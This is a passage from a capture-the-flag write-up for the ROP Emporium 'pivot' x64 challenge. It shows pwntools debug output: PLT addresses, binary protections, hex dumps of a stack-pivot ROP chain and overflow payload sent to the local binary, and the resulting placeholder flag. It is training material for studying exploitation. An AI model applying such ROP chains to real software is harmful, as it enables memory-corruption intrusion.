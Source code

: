 ```
    PIE:      PIE enabled
[DEBUG] PLT 0x4006d0 free
[DEBUG] PLT 0x4006e0 puts
[DEBUG] PLT 0x4006f0 printf
[DEBUG] PLT 0x400700 memset
[DEBUG] PLT 0x400710 read
[DEBUG] PLT 0x400720 foothold_function
[DEBUG] PLT 0x400730 malloc
[DEBUG] PLT 0x400740 setvbuf
[DEBUG] PLT 0x400750 exit
[*] '/home/kali/ctf/rop-emporium/pivot/x64/pivot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[DEBUG] PLT 0x4006d0 free
[DEBUG] PLT 0x4006e0 puts
[DEBUG] PLT 0x4006f0 printf
[DEBUG] PLT 0x400700 memset
[DEBUG] PLT 0x400710 read
[DEBUG] PLT 0x400720 foothold_function
[DEBUG] PLT 0x400730 malloc
[DEBUG] PLT 0x400740 setvbuf
[DEBUG] PLT 0x400750 exit
[DEBUG] Sent 0x41 bytes:
    00000000  20 07 40 00  00 00 00 00  bb 09 40 00  00 00 00 00  │ ·@·│····│··@·│····│
    00000010  40 10 60 00  00 00 00 00  29 08 40 00  00 00 00 00  │@·`·│····│)·@·│····│
    00000020  17 01 00 00  00 00 00 00  c0 09 40 00  00 00 00 00  │····│····│··@·│····│
    00000030  c4 09 40 00  00 00 00 00  b0 06 40 00  00 00 00 00  │··@·│····│··@·│····│
    00000040  0a                                                  │·│
    00000041
[DEBUG] Received 0x2f bytes:
    b'Thank you!\n'
    b'\n'
    b'Now please send your stack smash\n'
    b'> '
[DEBUG] Sent 0x41 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  bb 09 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000030  10 ef 51 9c  22 7f 00 00  bd 09 40 00  00 00 00 00  │··Q·│"···│··@·│····│
    00000040  0a                                                  │·│
    00000041
[+] Receiving all data: Done (129B)
[DEBUG] Received 0x5d bytes:
    b'Thank you!\n'
    b'foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot\n'
[DEBUG] Received 0x21 bytes:
    b'ROPE{a_placeholder_32byte_flag!}\n'
[*] Process './pivot' stopped with exit code 0 (pid 2916)
```

And we get the flag: `ROPE{a_placeholder_32byte_flag!}`
